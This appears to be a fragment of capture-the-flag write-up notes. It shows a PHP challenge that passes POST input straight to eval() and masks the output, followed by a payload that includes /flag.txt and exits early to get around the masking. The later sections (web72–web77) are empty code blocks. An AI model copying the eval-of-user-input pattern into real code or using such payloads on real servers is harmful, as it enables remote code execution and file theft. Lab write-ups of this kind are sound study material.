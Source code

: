 ```php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

pyload:include('/flag.txt');exit(0);

### web72

```php

```

### web73

```php

```

### web74

```php

```

### web75

```php

```

### web76

```php

```

### web77

```php

```
